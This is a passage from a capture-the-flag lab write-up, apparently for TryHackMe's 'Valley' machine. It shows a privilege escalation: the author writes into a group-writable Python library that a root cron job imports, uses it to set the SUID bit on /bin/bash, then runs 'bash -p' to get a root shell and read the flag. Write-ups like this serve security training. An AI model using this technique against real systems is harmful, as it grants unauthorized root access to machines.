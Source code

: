 ### Hmm, special permissions for our group for base64.py? I'll have a look at it.
```bash
valley@valley:/usr/lib/python3.8$ ls -la | grep base64.py
-rwxrwxr-x   1 root valleyAdmin  20382 Mar 13  2023 base64.py
```

### Ho-ho-ho, we can write to it!!! At this point we can do anything we want, because we are able to execute arbitrary commands directly by putting them into this file and `cron` will do its job. Let's give `/bin/bash` the SUID bit and get our `root` privileges:
![Screenshot](./images/screen10.png)

### Wait a few minutes for `cron` to run `photosEncrypt.py`...
```bash
valley@valley:/usr/lib/python3.8$ bash -p
bash-5.0# whoami
root
```

### And the last flag!
```bash
bash-5.0# ls /root
root.txt  snap
bash-5.0# cat /root/root.txt 
THM{redacted}
```

## That's all. Thanks for reading, stay safe :\)